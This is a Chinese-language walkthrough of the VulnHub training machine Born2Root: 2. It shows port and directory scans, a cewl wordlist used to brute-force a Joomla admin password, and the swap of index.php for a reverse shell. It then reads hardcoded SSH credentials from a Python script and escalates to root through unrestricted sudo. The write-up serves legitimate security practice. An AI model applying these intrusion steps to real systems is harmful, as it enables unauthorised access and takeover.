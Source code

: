 # Born2Root: 2

> https://download.vulnhub.com/born2root/Born2rootv2.ova

靶场IP：`192.168.32.18`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.18
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 00:09 EDT
Nmap scan report for 192.168.32.18
Host is up (0.00012s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
55052/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:FC:25:B6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds

```

浏览器访问80端口

![image-20220913121050120](../../.gitbook/assets/image-20220913121050120.png)

爆破目录

```
┌──(root㉿kali)-[~]
└─# dirb http://192.168.32.18/ 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 13 00:10:53 2022
URL_BASE: http://192.168.32.18/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.18/ ----
==> DIRECTORY: http://192.168.32.18/css/                                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.18/img/                                                                                                                                                                                                  
+ http://192.168.32.18/index.html (CODE:200|SIZE:8454)                                                                                                                                                                                    
==> DIRECTORY: http://192.168.32.18/javascript/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.18/joomla/                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.18/js/                                                                                                                                                                                                   
+ http://192.168.32.18/LICENSE (CODE:200|SIZE:1093)                                                                                                                                                                                       
==> DIRECTORY: http://192.168.32.18/manual/                                                                                                                                                                                               
+ http://192.168.32.18/server-status (CODE:403|SIZE:301)                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.18/vendor/     
```

访问：`/joomla/`

![image-20220913121126841](../../.gitbook/assets/image-20220913121126841.png)

使用cewl生成密码字典

```
┌──(root㉿kali)-[/tmp]
└─# cewl http://192.168.32.18/joomla/ > password
```

爆破密码

![image-20220913121534236](../../.gitbook/assets/image-20220913121534236.png)

爆破成功

```
Username: admin
Password: travel
```



登录后台

![image-20220913121657408](../../.gitbook/assets/image-20220913121657408.png)

编辑 index.php 后，单击"保存"按钮保存文件。现在我们已经成功地将 index.php 替换为我们的反向 shell 脚本。现在，剩下要做的就是运行 index.php。现在要获得会话，我们需要一个侦听器，我们将在其中获得反向 shell。我们将使用 netcat 创建一个监听器，如下图所示。

![image-20220913122324499](../../.gitbook/assets/image-20220913122324499.png)

![image-20220913122338931](../../.gitbook/assets/image-20220913122338931.png)

发现：`fileshare.py`，找出账号和密码：`tim/lulzlol`

```
www-data@born2root:/$ cd /opt
cd /opt
www-data@born2root:/opt$ ls
ls
scripts
www-data@born2root:/opt$ cd scripts
cd scripts
www-data@born2root:/opt/scripts$ ls
ls
fileshare.py
www-data@born2root:/opt/scripts$ cat fileshare.py
cat fileshare.py
#!/usr/bin/env python

import sys, paramiko

if len(sys.argv) < 5:
    print "args missing"
    sys.exit(1)

hostname = "localhost"
password = "lulzlol"
source = "/var/www/html/joomla"
dest = "/tmp/backup/joomla"

username = "tim"
port = 22

try:
    t = paramiko.Transport((hostname, port))
    t.connect(username=username, password=password)
    sftp = paramiko.SFTPClient.from_transport(t)
    sftp.get(source, dest)

finally:
    t.close()

```

切换到`tim`用户

```
www-data@born2root:/opt/scripts$ su tim
su tim
Password: lulzlol
```

查看sudo列表

```
tim@born2root:/opt/scripts$ sudo -l
sudo -l
[sudo] password for tim: lulzlol

Matching Defaults entries for tim on born2root:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tim may run the following commands on born2root:
    (ALL : ALL) ALL

```

切换到root用户

![image-20230208133748149](../../.gitbook/assets/image-20230208133748149.png)